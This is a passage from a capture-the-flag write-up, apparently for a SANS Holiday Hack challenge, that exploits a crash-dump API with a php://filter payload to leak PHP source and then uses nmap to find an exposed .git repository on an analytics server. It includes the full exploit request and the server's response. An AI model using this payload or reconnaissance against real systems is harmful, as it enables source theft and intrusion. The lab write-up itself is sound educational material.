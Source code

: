 ```
Date: Mon, 26 Dec 2016 06:36:59 GMT
Server: nginx/1.10.2

{
    "success" : true,
    "folder" : "docs",
    "crashdump" : "crashdump-ZCEIDC.php"
}
```

Given that the data is written into a PHP file let's try the filter exploit:

```
POST /exception.php HTTP/1.1
Content-Type: application/json
User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.4.2; GT-I9505 Build/KOT49H)
Host: ex.northpolewonderland.com
Connection: Keep-Alive
Content-Length: 104

{"operation":"ReadCrashDump","data":{"crashdump":"php://filter/convert.base64-encode/resource=exception"}}


HTTP/1.1 200 OK
Transfer-Encoding: chunked
Connection: keep-alive
Content-Type: text/html; charset=UTF-8
Date: Mon, 26 Dec 2016 07:36:26 GMT
Server: nginx/1.10.2

PD9waHAgCgojIEF1ZGlvIGZpbGUgZnJvbSBEaXNjb21ib2J1bG...
```

When we Base64-decode the response we get the source of ```exception.php```, that includes the following string:

```
<?php # Audio file from Discombobulator in webroot: discombobulated-audio-6-XyzE3N9YqKNH.mp3 
```


### The Mobile Analytics Server (post authentication)

Coming back to the analytics server we now need to try and exploit it further. Running ```nmap``` against it reveals that a Git repository is accessible:

```
root@kali:/sans# nmap -sV -sC analytics.northpolewonderland.com

Starting Nmap 7.31 ( https://nmap.org ) at 2017-01-03 21:03 EST
Nmap scan report for analytics.northpolewonderland.com (104.198.252.157)
Host is up (0.014s latency).
rDNS record for 104.198.252.157: 157.252.198.104.bc.googleusercontent.com
Not shown: 998 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 5d:5c:37:9c:67:c2:40:94:b0:0c:80:63:d4:ea:80:ae (DSA)
|   2048 f2:25:e1:9f:ff:fd:e3:6e:94:c6:76:fb:71:01:e3:eb (RSA)
|_  256 4c:04:e4:25:7f:a1:0b:8c:12:3c:58:32:0f:dc:51:bd (ECDSA)
443/tcp open  ssl/http nginx 1.6.2
| http-git: 
|   104.198.252.157:443/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Finishing touches (style, css, etc) 
```